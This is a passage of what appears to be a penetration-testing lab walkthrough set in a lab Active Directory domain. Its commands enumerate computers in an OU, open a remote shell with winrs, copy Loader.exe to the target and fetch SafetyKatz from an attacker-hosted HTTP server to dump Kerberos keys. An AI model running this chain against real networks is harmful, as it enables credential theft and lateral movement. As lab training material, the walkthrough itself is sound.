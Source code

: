 <br/>

Enumerate computers in the OU `mgmt`:

```
Get-DomainComputer | ?{$_.distinguishedname -match "OU=mgmt,"} | select distinguishedname, dnshostname
```

![picture 26](images/0568bcef9cf5e6ae36d7c8dadf1a4f0f33c251c9a56afd4c2324e0aa0fb15e56.png)  

<br/>

Logout and login againt to refresh to security token. Then try to access `us-mgmt` using `winrs`:

```
winrs -r:us-mgmt.us.techcorp.local cmd.exe
```

![picture 27](images/9cbad7f9520f7541abc9802219c2ce8410d4dd69d479f64b318d3eec8d519beb.png)  

<br/>

To dump credentials on `us-mgmt`, first copy `Loader.exe` to it. From the RDP machine:

```
copy .\Loader.exe \\us-mgmt.us.techcorp.local\C$\Users\Public\Loader.exe
```

```
python -m SimpleHTTPServer 80
```

<br/>

On the `us-mgmt` shell, load `Safetykatz` using `Loader.exe`:

```
C:\Users\Public\Loader.exe -Path http://192.168.100.64/SafetyKatz.exe "sekurlsa::ekeys"
```

![picture 28](images/606b35418fd3a77bccf68550b2d5db198dde94957a5adc092aa4e9a4b8853cf1.png)  
